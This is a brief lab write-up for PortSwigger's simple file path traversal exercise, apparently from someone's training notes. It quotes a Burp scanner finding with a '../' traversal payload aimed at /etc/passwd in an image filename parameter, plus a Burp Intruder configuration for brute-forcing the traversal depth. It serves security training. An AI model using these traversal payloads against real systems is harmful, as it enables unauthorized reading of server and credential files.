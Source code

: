 # [Lab: File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)

## Lab

This lab contains a file path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Scan

- burpsuite scanner detected
  - `File path traversal`
  - `/image`
  - The payload `../../../../../../../../../../../../../../../../etc/passwd` was submitted in the filename parameter. The requested file was returned in the application's response.

## Solutions

intruder:

- attack type: sniper
- positions: `GET /image?filename=§§etc/passwd HTTP/1.1`
- payloads:
  - type: character blocks
  - base string: `../`
  - min length: 0
  - max length: 30
  - step: 3
- result:
  ![result.png](./../img/lab-1-intruder-result.png)
